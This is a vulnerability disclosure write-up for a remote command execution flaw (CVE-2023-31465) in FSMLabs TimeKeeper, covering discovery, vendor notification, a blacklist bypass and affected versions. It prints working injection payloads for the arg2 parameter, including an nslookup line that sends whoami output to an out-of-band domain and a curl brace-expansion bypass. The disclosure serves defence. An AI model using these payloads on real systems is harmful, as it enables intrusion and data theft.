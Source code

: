 # CVE-2023-31465 | TimeKeeper by FSMLabs - RCE
During a PT activity, we managed to find a Remote Command Execution vulnerability in TimeKeeper and, while fixing it, we had the opportunity to modify and evolve the payload.
In the first paragraph we are going to explain the discovery and exploitation of the vulnerability, and this was performed during the time of the penetration testing, while in the second paragraph 
we will show the fix attempts, the re-exploitation and the final countermeasure.


## TimeKeeper version 8.0.17

In the image below is represented the request that is employed by TimeKeeper in order to set the source of IPs that has to be synchronized.

![req](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/f6e13bf7-2755-40f4-8d8c-09cf66116815)

During our first analysis, we used some Windows and Linux concatenation strings with the **ping** command to check a potential RCE vulnerability. 
We first discovered it in the *arg2* query parameter, with the following payload appended to the **earliest** number value:

```
||ping -c 10 127.0.0.1
```

A time delay was triggered, so we kept testing with other techniques and payloads.

After some time, we uncovered the following payload, useful for retrieving hex-encoded information (the data has been hex-encoded with *xxd* in order to avoid cutting off due to the DNS protocol):

```
||nslookup $(xxd -pu <<< $(whoami)).OASTIFY.DOMAIN||x
```

Below you can observe, respectively:
* the malicious request;

![poc1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/1a99f5a7-939a-4bfd-aab9-f9226e0d3351)

* the burp collaborator DNS interactions with hex-data exfiltrated;

![poc2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/265b70a5-a80c-4dea-9143-5663f9aab18b)
 
* the hex-decoded values for the **whoami** and **id** commands.

![poc3](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/61f12806-36ba-46b7-b0d0-c928e0b7275d)


## TimeKeeper version 8.0.28 (BETA)

After discovering the vulnerability, we contacted directly FSMLabs to notify about the critical vulnerability.
They thanked and asked us to conduct more tests on the BETA version to ensure that the vulnerability has been fixed in the meanwhile, as version 2.0.17 was over 2 years old at the time of testing 
(2023).

A blacklist was implemented for some characters, such as: |, &, *, $, <, >, (, ), -. The previous payload, then, could not be used anymore. However, curly brackets were not
blacklisted, so we tried with the *bash expansion* technique.

Specifically, the following payload was injected:

```
;{curl,`whoami`.[collaborator_domain]};a
```

and we were still able to conduct a remote command execution.


## Remediation

The FSMLabs has fixed the vulnerability in TimeKeeper version 8.0.28.


## Vulnerable version of TimeKeeper

As a result of our testing, versions 8.0.17 through 8.0.27 are vulnerable to RCE.


## Discovered by

Francesco Iaria

Riccardo Degli Esposti

Claudio Rimensi

Francesco Varotto
